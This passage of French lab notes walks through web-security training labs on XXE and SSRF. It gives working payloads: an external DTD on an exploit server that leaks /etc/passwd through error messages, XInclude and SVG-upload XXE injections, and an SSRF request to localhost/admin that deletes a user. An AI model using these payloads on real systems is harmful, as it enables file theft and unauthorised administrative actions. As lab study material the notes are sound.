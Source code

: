 Code à héberger sur le serveur d'exploitation :

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

Payload à ajouter au contenu XML de la fonction "Check stock" de n'importe quel produit :

    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0500eb04db14228550570e015a0065.exploit-server.net/exploit.dtd"> %xxe;]>

On reçoit bien le contenu du fichier /etc/passwd dans le corps de la page de l'erreur 400 obtenue


### Exploiting XInclude to retrieve files

L'exemple du cours fonctionne directement mais il faut bien l'ajouter comme valeur du paramètre **productId** : 

    productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1

### Exploiting XXE via image file upload

    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

Le contenu du fichier se retrouve dans l'image après le processing de cette dernière, il faut retourner sur notre profil et regarder l'avatar.

### Exploiting XXE to retrieve data by repurposing a local DTD 

TO DO 


## === Server-side request forgery (SSRF) ===

### Basic SSRF against the local server

La page https://0a48007504a4974a81a78eee00540025.web-security-academy.net/admin est réservée aux administrateurs.

Utiliser la fonction “Check stock” sur n’importe quel article et l’intercepter sur Burp.

Changer le paramètre “stockApi=XXX” de cette requête POST en “stockApi=http://localhost/admin” 

Dans le code de la réponse on peut remarquer : 

    <a href="/admin/delete?username=carlos">

Reproduire la même interception de requête mais cette fois avec “stockApi=http://localhost/admin/delete?username=carlos”
    
### Basic SSRF against another back-end system
    